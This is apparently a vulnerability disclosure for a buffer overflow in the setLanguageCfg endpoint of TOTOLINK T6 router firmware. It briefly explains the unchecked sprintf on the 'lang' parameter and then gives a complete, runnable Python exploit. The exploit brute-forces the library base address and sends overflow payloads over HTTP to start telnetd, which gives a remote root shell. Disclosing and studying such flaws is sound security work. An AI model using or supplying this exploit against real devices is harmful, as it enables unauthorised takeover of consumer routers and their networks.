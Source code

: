 # Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a buffer overflow vulnerability that lead to RCE. This vulnerability can be triggered through the topicurl ` setLanguageCfg`. An attacker can implement a RCE attack by sending a malicious HTTP POST request.

# Vulnerability details

The `product_info` can cause a buffer overflow due to the lack of length validation.

![](2/1.png)

`lang` is the param attacker control.

![](2/2.png)

`sprintf` doesn't check length of `lang`. When the attacker send a malicious `lang` param, the saved ret_address will be overwrite. Lead it to execute whatever the attacker want.

![](2/3.png)

Attacker can reboot the system or bruteforce the base of dynamic library to do ROP chain attack. In the POC video, the attacker turn on `telnet` to achive root shell.

# POC

```python
import requests, sys, threading, time, queue, random, struct, socket, os

MAX_ADDR = 2 ** 12
WORKER_AMOUNT = 4

START_TIME = 0

brute_queue = queue.Queue()

def worker(target_ip):
    while True:
        try:
            brute_val = brute_queue.get_nowait()
        except queue.Empty:
            break
        
        print("  [-] Trying 0x%x" % brute_val)

        url = f"http://{target_ip}/cgi-bin/cstecgi.cgi"

        brute_base = 0x77000000 
        telnetd_str_off = 0x5BA4

        brute_val = brute_val * 0x1000 + brute_base # base of /lib/libdl-0.9.33.so
        brute_val += 0x11c000

        brute_telnet_str = brute_val + telnetd_str_off

        temp = struct.pack("<I", brute_telnet_str)

        payload = b"A" * 324 + temp + b"C" * 4 + b"\x08\x88\x40"

        data = b'''
        {
            "topicurl":"setLanguageCfg",
            "lang":"%s",
            "langAutoFlag":"sad POC"
        }
        ''' % (payload)

        requests.post(url, data=data)

def check_telnet(target_ip):
    global START_TIME
    print("[+] Check telnet port !!")
    while True:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
            sock.settimeout(1)
            try:
                sock.connect((target_ip, 23))
                print(f"[+] Found !!")
                print(f"[+] Script run: {round(time.time() - START_TIME)}s")
                os._exit(0)
            except (socket.timeout, socket.error):
                continue
        time.sleep(1)

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print(f"[-] Usage: {sys.argv[0]} target_ip")
        exit(0)

    START_TIME = time.time()
    print(f"[+] Wish me luck !!")
    
    brutes = list(range(0x10, MAX_ADDR))
    random.shuffle(brutes)

    for brute in brutes:
        brute_queue.put(brute)
    
    threads = []
    for _ in range(WORKER_AMOUNT):
        t = threading.Thread(target=worker, args=(sys.argv[1],))
        t.start()
        threads.append(t)

    t2 = threading.Thread(target=check_telnet, args=(sys.argv[1],))
    t2.start()
    threads.append(t2)

    for t in threads:
        t.join()
```

[POC 1](https://www.youtube.com/watch?v=Aio5EGlzMO8) - Attacker execute `telnetd` by bruteforcing dynamic library base to achieve remote shell.<br>
[POC 2](https://www.youtube.com/watch?v=jSMOeIb6dLY) - Force the system to reboot

